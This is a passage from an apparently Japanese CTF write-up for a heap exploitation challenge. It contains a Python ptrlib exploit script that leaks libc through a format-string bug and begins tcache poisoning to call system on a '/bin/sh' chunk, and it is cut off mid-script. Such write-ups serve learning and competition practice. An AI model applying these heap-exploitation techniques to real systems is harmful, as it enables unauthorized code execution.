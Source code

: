 また、本が削除可能かは単純に全体の本の個数で判断されるので、たくさん本を作っておきましょう。
最後にnameが`/bin/sh`の本を削除すればシェルが奪えます。

```python
from ptrlib import *
import re

def add(size, name, price):
    sock.recvuntil("> ")
    sock.sendline("1")
    sock.recvuntil("length: ")
    sock.sendline(str(size))
    sock.recvuntil("name: ")
    sock.send(name)
    sock.recvuntil("price: ")
    sock.sendline(str(price))

def remove(index):
    sock.recvuntil("> ")
    sock.sendline("2")
    sock.recvuntil("index: ")
    sock.sendline(str(index))

def view():
    sock.recvuntil("> ") 
    sock.sendline("3")
    return sock.recvuntil("(4) Check out")

elf = ELF("./challenge")
libc = ELF("./libc6_2.27-3ubuntu1_amd64.so")
sock = Socket("127.0.0.1", 4002)
#sock = Socket("192.168.1.19", 4010)
_ = input()

# libc leak
payload = p64(0x41424344)
payload += p64(0)
payload += p64(1337)
payload += b"%15$p\x00"
add(0xf8, "A", 123)
add(0x38, "B", 123)
remove(1)
remove(0)
add(0x38, payload, 123)
ret = view()
addr_libc_start_main_ret = int(re.findall(b"0x[0-9a-f]+", ret)[0], 16)
libc_base = addr_libc_start_main_ret - 0x021b97
addr_system = libc_base + libc.symbol("system")
dump("libc base = " + hex(libc_base))

# tcache poisoning
add(0xf8, "/bin/sh\x00", 123) # 3
add(0xf8, "b", 123) # 4
add(0x38, "c", 123) # 5
add(0xf8, "d", 123) # 6
add(0xf8, "e", 123) # 7
add(0x38, "f", 123) # 8
add(0xf8, "g", 123) # 9
add(0xf8, "g", 123) # 10
add(0xf8, "g", 123) # 11
remove(6)
remove(6)
remove(8)
remove(5)
```